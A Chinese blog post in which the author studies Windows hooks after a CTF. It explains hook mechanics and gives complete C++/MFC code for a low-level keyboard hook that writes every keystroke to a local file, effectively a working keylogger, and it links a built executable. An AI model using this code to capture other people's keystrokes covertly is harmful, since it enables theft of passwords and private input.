```yaml
---
layout:     post
title:      Hook学习
subtitle:   kxctf中碰到了这个，不会，wp都看不懂
date:       2018-12-28
author:     gxkyrftx
header-img: img/post-bg-cook.jpg
catalog: true
tags:
    - Hook
    - c++
---
```


# 0x01 hook是什么

Hook，是Windows消息处理机制的一个平台，应用程序可以在上面设置子程序以监视指定窗口的某种消息，而且所监视的窗口可以是其他进程所创建的。当消息到达后，在目标窗口处理函数之前处理它。钩子机制允许应用程序截获处理window消息或特定事件。

钩子实际上是一个处理消息的程序段，通过系统调用，把它挂入系统。每当特定的消息发出，在没有到达目的窗口前，钩子程序就先捕获该消息，亦即钩子函数先得到控制权。这时钩子函数即可以加工处理（改变）该消息，也可以不作处理而继续传递该消息，还可以强制结束消息的传递。

划重点：监视某程序，等一个事件发生，在正常的应该处理这个事件的动作之前，先进行捕获，hook函数先执行这个事件。

# 0x02 hook的原理

举个例子，弹窗是程序中很常见的一个api(Application Programming Interface，就是开发人员预置的程序接口，使用者可以调用），常见的就是MessageBox函数,那么hook就是，我们把这个API,变为我们的API去执行,执行完我们的代码之后再去执行它的的函数。

其实相当于就是我们在这个API之前,跳转到我们的函数执行了,然后跳转之后,我们执行完毕之后,可以选择是否在跳转回去,但是这里注意,跳转回去则跳转到msg的return处位置即可。eax可以给一个值,让它返回。

利用这个技术,我们可以监控API,比如应用程序会调用loadLibrary,那我们把它Hook了,把Dll路径改成我们的,那加载的就是我们的dll了,当然 Hook的API很多,因为只要是Windows的API都能HOOK

# 0x03 hook实例-获取键盘输入

说一千道一万，最重要的还是要落实到应用，来看看怎么实现

## 1.开发环境

    windows10,vs2010
    
## 2.前期准备

    文件——>新建——>项目——>MFC——>MFC应用程序——>应用程序类型选基于对话框——>完成
    
    然后画两个按钮，如图所示

![hook1](https://github.com/gxkyrftx/gxkyrftx.github.io/blob/master/img/hook1.PNG?raw=true)
    
## 3.程序实现
4.添加库与全局变量

~~~c++
#include <iostream> 

#include <string> 

#include <fstream>
 
using namespace std;
 
//全局变量
HHOOK glhHook = NULL;			//安装的鼠标勾子句柄 

BOOL g_bCapsLock = FALSE;		//大小写锁定键

BOOL g_bShift = FALSE;			//shift键

ofstream SaveFile("key.txt");
~~~
	
2.双击hook按钮，对其编程
    
```c++
	void CKeyboardHookDlg::OnBnClickedButton1() {
	string str = "start:";
	SaveFile << str << endl;
	
	glhHook = SetWindowsHookExA(WH_KEYBOARD_LL, KeyboardProc, GetModuleHandle(NULL), NULL);
	
	//这里调用SetWindowsHookExA()函数，因为hook的实现不是在DLL中，而是直接在KeyboardHookDlg.cpp中实现，所有第3个参数使用	GetModuleHandle(NULL)
	
	if (glhHook != NULL) {
		//AfxMessageBox(L"StartHook成功！");//用于打桩测试
	} 
	else 
	{
		AfxMessageBox(L"StartHook失败！");
	}
	}
```

3.双击stophook，对其编程

```c++
	void CKeyboardHookDlg::OnBnClickedButton2() {
		UnhookWindowsHookEx(glhHook);
	}
```

4.在键盘输入了字符，处理这件事

~~~ c++
//键盘钩子回调函数
LRESULT  CALLBACK  KeyboardProc(int nCode, WPARAM wParam, LPARAM lParam) {
	
	char c[2];
	c[1] = 0;
	if ((wParam == WM_KEYDOWN) && (HC_ACTION == nCode)) {		//有键按下
		
		KBDLLHOOKSTRUCT *  keyNum = (KBDLLHOOKSTRUCT *)lParam;
 
		//处理字母大小写
		
		if ((keyNum->vkCode == VK_CAPITAL) || (keyNum->vkCode == VK_LSHIFT) || (keyNum->vkCode == VK_RETURN) || (keyNum->vkCode >= 65 && keyNum->vkCode <= 90)) {
			
			if (!GetKeyState(VK_CAPITAL)) {	//如果大写锁定键未被按下
			
				g_bCapsLock = FALSE;
			} else {
				g_bCapsLock = TRUE;
			}
 
			if (GetAsyncKeyState(VK_LSHIFT) & 0x8000) { //如果shift键被按住
			
				g_bShift = TRUE;
			} else {
				g_bShift = FALSE;
			}
 
			if (keyNum->vkCode >= 65 && keyNum->vkCode <= 90) {
				BOOL flag = g_bCapsLock^g_bShift;//同假异真
				
				if (flag) {
					c[0] = keyNum->vkCode;
				} else {
					c[0] = keyNum->vkCode + 32;
				}
				SaveFile << (int)c[0] << " : " << c << endl;
			}
		}
		//处理数字小键盘
		
		else if (keyNum->vkCode == 144 || (keyNum->vkCode >= VK_NUMPAD0 && keyNum->vkCode <= VK_NUMPAD9)) { //144表示数字小键盘锁键
 
			if (GetKeyState(144)) {		//如果数字小键盘锁键被按下
			
				int mapKey = keyNum->vkCode - 48;
				SaveFile << keyNum->vkCode << " : " << char(mapKey) << endl;
			}
 
		} else {
			SaveFile << keyNum->vkCode << " : " << char(keyNum->vkCode) << endl;
		}
	}
	return CallNextHookEx(glhHook, nCode, wParam, lParam);
}

~~~

5.随后调试，生成解决方案

# 0x04 运行结果

将生成的MFC程序，移动至任何目录下，随后打开程序，单击hook，随意从键盘输入，观察到本目录出现了key.txt文件，打开看，就是刚才记录的值

![hook2](https://github.com/gxkyrftx/gxkyrftx.github.io/blob/master/img/hook2.PNG?raw=true)

成品在这里[成品](https://github.com/gxkyrftx/kxctf2018/blob/master/%E9%A2%84%E5%A4%87%E7%9F%A5%E8%AF%86/TLS/TLSdemo1.exe)
